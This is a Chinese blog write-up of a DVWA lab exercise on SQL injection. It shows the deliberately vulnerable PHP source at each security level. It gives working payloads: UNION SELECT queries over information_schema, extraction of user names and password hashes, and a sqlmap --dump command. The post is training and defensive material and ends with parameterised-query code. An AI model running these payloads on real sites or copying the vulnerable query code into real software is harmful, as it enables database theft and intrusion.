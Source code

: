 title: DVWA练习3-SQL注入
date: 2016-03-02 22:44:13
categories: 安全
tags: [Web安全,SQL注入]
---

### 一、SQL注入
#### 1.简介
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。
<!--more-->
#### 2.类别危害
SQL注入根据数据库的不同，有asp+mssql和php+mysql几种，有盲注，回显式注入等。
SQL注入危害很大，可以数据库中重要信息，获取webshell等。
#### 3.防范
参考wooyun wiki：
使用参数检查的方式，拦截带有SQL语法的参数传入应用程序
使用预编译的处理方式处理拼接了用户参数的SQL语句
在参数即将进入数据库执行之前，对SQL语句的语义进行完整性检查，确认语义没有发生变化
在出现SQL注入漏洞时，要在出现问题的参数拼接进SQL语句前进行过滤或者校验，不要依赖程序最开始处防护代码
定期审计数据库执行日志，查看是否存在应用程序正常逻辑之外的SQL语句执行

其实就是对用户输入的数据进行检查过滤，使用参数化语句，是代码和数据分离。

### 二、DVWA练习
#### 1.low
源码：
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}
?>
```
接收用户输入的id值，在将其放入查询语句中，查询正确则返回结果，否则显示错误。其中没有任何过滤.
此处可以看到查询为字符型，而不是数字型。尝试输入1' or '1'='1，遍历数据库表，则查询语句为
`SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';`
可以看到结果为
![Alt text](http://7xo8y2.com1.z0.glb.clouddn.com/57(WM%5B1%24VR%5BI3YX%5DS%4068%25G0.png)
接下来进行注入。
查询字段数：order by x
当输入数字为3时，错误，说明此处查询的字段为2。可以参考https://segmentfault.com/a/1190000002655427
字段位置：-1' union select 1,2--
结果有1，2。可以在将数字替换。
查询数据库名称：-1' union select database(),2--
结果为 dvwa。
猜解表名：-1' union select 1,TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x64767761--
这之中0x64767761为数据库（十六进制），即dvwa转换为hex。
结果为：
![Alt text](http://7xo8y2.com1.z0.glb.clouddn.com/4FRINC6ON5VI%40709688US.png)
其中有两个表，需要查询的是user表。
猜解列名：
-1' union select 1,column_name from information_schema.columns where table_name=0x7573657273--
此处0x7573657273为users转换为16进制。
结果为
![alt text](http://7xo8y2.com1.z0.glb.clouddn.com/caijieleiming.png)
其中user和password为用户和密码列。
查询内容：
-1' union select user,password from users --
可以看到结果为
![alt text](http://7xo8y2.com1.z0.glb.clouddn.com/jieguo.png)
用户admin的密码hash值为5f4dcc3b5aa765d61d8327deb882cf99，破解出密码是password。

#### 2.Medium
源码：
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Display values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    //mysql_close();
}

?>
```
Medium级别没有输入框，使用复选框来输入，$_POST接收输入。
mysql_real_escape_string()函数过滤特殊字符，但是在这里并不能完全过滤，所以仍然可以注入。
这里可以使用代理工具修改数据进行注入，使用burp代理，如图。
![](http://7xo8y2.com1.z0.glb.clouddn.com/mediumburp.png)
修改为 id=2 or 1=1&Submit=Submit,遍历表单。这里是数字型注入，与字符型注入略不同，其余过程一样。
结果如图
![](http://7xo8y2.com1.z0.glb.clouddn.com/mediumjieguo.png)

#### 3.High
源码：
```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
   // Get input
   $id = $_SESSION[ 'id' ];

   // Check database
   $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
   $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );

   // Get results
   $num = mysql_numrows( $result );
   $i   = 0;
   while( $i < $num ) {
       // Get values
       $first = mysql_result( $result, $i, "first_name" );
       $last  = mysql_result( $result, $i, "last_name" );

       // Feedback for end user
       echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

       // Increase loop count
       $i++;
   }

   mysql_close();
}

?>
```
这里和low级别相似，但是是在另一个页面中，使用$_SESSION保存数据。
输入 -1' or '1'='1'--  遍历表
直接输入 -1' union select user,password from users --即可得到结果。
PHP session的作用其实很简单它可以把用户提交的数据以全局变量形式保存在一个session中并且会生成一个唯一的session_id，这样就是为了多了不会产生混乱了，并且session中同一浏览器同一站点只能有一个session_id。
#### 4.Impossible
源码：
```PHP
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();
?>
```
这是使用checkToken防止CSRF攻击，is_numeric函数判断是否为数字，防止输入非法数据，并且代码和数据分离，防止了SQL注入。

#### 5.SQL盲注
普通注入与盲注的区别：普通注入是会显示一些错误信息在页面上给攻击者判断，也就是说它会有多种情况，从而方便攻击者。而盲注则是只有两种情况，即TRUE和FALSE，这样说并不是很准确，因为SQL查询无非就这两种情况，应该说是盲注的时候你只能得到一个正常的页面或者是什么页面的不存在，甚至你在查询表的记录过程也不会有显示。
可以参考[mysql盲注](http://seeicb.com/2016/05/27/mysql盲注/)
使用sqlmap, python sqlmap.py -u "http://192.168.10.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=8i4q6vgdtu106rsqntlmhihpr6" -D dvwa -T users-C user,password --dump
可得到结果。

#### 6.其它
网上一些关于SQL注入的介绍。
http://www.cnblogs.com/aix1314/archive/2013/03/31/2991609.html
http://wayne173.iteye.com/blog/1457634
http://www.cnblogs.com/tanshuicai/archive/2010/02/03/1664900.html
http://www.2cto.com/Article/201403/286400.html
